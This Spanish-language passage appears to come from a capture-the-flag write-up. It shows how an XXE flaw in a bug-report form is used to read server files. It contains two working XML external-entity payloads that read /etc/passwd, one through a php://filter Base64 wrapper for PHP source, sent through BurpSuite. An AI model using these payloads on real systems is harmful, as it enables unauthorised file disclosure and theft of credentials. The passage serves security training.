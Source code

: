 A continuación, el siguiente paso será intentar leer archivos arbitrarios del sistema. La siguiente estructura `XML` la codificaremos en `Base64` y  `URL Encode` y al enviar la solicitud desde `BurpSuite`, comprobaremos que finalmente hemos logrado listar el archivo `/etc/passwd` del servidor vulnerable.&#x20;

Por lo tanto, tenemos una vía potencial de poder leer archivos arbitrarios del sistema.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY myFile SYSTEM 'file:///etc/passwd'>]>
		<bugreport>
		<title>Gzzcoo</title>
		<cwe>&myFile;</cwe>
		<cvss>9.0</cvss>
		<reward>10000</reward>
		</bugreport>
```

<figure><img src="../../.gitbook/assets/imagen (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

### XXE PHP File Read - Base64 Wrapper

El problema con la lectura de archivos en una aplicación web es que, si intentamos leer un archivo `PHP`, este se interpretará y no podremos ver su contenido en texto plano.

Para evitar este comportamiento, podemos usar `wrappers` de `PHP` para codificar el contenido que queremos listar. En este caso, utilizaremos un wrapper que convierte el archivo a `Base64`. Esto nos permite leer archivos `PHP` sin que el servidor los ejecute, ya que la aplicación solo mostrará el contenido codificado como una cadena de texto. Luego, simplemente decodificamos el resultado para obtener el archivo original.

Por ejemplo, al utilizar el siguiente payload, podemos leer el archivo `/etc/passwd`, que se nos devolverá en `Base64`.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
		<bugreport>
		<title>Gzzcoo</title>
		<cwe>&xxe;</cwe>
		<cvss>9.0</cvss>
		<reward>10000</reward>
		</bugreport>
```
